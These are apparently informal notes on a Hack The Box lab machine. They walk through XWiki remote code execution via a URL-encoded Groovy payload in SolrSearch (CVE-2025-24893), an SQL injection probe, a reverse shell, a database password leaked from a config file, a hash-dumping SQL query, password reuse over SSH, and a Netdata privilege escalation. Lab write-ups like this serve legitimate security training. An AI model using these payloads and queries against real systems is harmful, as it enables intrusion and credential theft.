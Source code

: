 ___


# User

*ports open*
22
80
8080


8080/tcp open  http    syn-ack ttl 63 Jetty 10.0.20


*found poc for this*
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async%20async=false}}{{groovy}}println(%22Exploit%20Successful!%20Result:%20%22%20+%20(23%20+%2019)){{/groovy}}{{/async}}


*this crashes*


*this looks like it worked SQL injection*
http://10.10.11.80:8080/xwiki/rest/liveData/sources/liveTable/entries?sourceParams.template=getdeleteddocuments.vm&sort=injected


Exception while executing query. Query statement = [SELECT ddoc.id FROM XWikiDeletedDocument as ddoc WHERE 1=1 order by SHOW TABLES; asc]



*this works*
https://github.com/advisories/GHSA-rr6p-3pfg-562j

`<host>/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28"Hello%20from"%20%2B%20"%20search%20text%3A"%20%2B%20%2823%20%2B%2019%29%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20`


# this one worked
https://github.com/gunzf0x/CVE-2025-24893

*i have a rev shell!!! yaya*




*hybernate cfg file *

    <property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>
    <property name="hibernate.connection.username">xwiki</property>
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>




| caching_sha2_password | $A$005$bvqg> |
| --------------------- | ------------ |
| 8                     |              |
|                       |              |
|                       |              |

*chat pulled in clutch rn bc what*

SELECT username, password_hash FROM ((SELECT d.XWD_FULLNAME AS username, s.XWS_VALUE AS password_hash FROM xwikiobjects o JOIN xwikiproperties p ON o.XWO_ID = p.XWP_ID JOIN xwikistrings s ON p.XWP_ID = s.XWS_ID JOIN xwikidoc d ON d.XWD_FULLNAME = o.XWO_NAME WHERE o.XWO_CLASSNAME = 'XWiki.XWikiUsers' AND p.XWP_NAME = 'password' AND p.XWP_CLASSTYPE = 'com.xpn.xwiki.objects.StringProperty') UNION ALL (SELECT d.XWD_FULLNAME AS username, xl.XWL_VALUE AS password_hash FROM xwikiobjects o JOIN xwikiproperties p ON o.XWO_ID = p.XWP_ID JOIN xwikilargestrings xl ON xl.XWL_ID = p.XWP_ID JOIN xwikidoc d ON d.XWD_FULLNAME = o.XWO_NAME WHERE o.XWO_CLASSNAME = 'XWiki.XWikiUsers' AND p.XWP_NAME = 'password' AND p.XWP_CLASSTYPE LIKE '%LargeStringProperty%')) t ORDER BY username;



*hash*
| XWiki.neal | hash:SHA-512:dac65976a9f09bcd15bd2c5c6eae4c43b06f316be7ae6b191db26580b1211bef:6b8f547e3742e998380da4f9d426773430a7982a946b9bfd94da0d7abe0d472c5ff08fcb8b0a908bc293da82298053ba348872099bd88f059a7838c38b670153 |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| XWiki.neal | Bagwell                                                                                                                                                                                                        |
| XWiki.neal |                                                                                                                                                                                                                |
| XWiki.neal |                                                                                                                                                                                                                |
| XWiki.neal | Neal                                                                                                                                                                                                           |
| XWiki.neal | neal@editor.htb                                                                                                                         


*this was the password for oliver on ssh brughhhhhh*
theEd1t0rTeam99


*is this it?*
Netdata Agent: v1.45.2


*this is it*
https://github.com/AliElKhatteb/CVE-2024-32019-POC



NETDATA is pretty cool for system monitoring ngl, the agents and then the main cloud controller ptty cool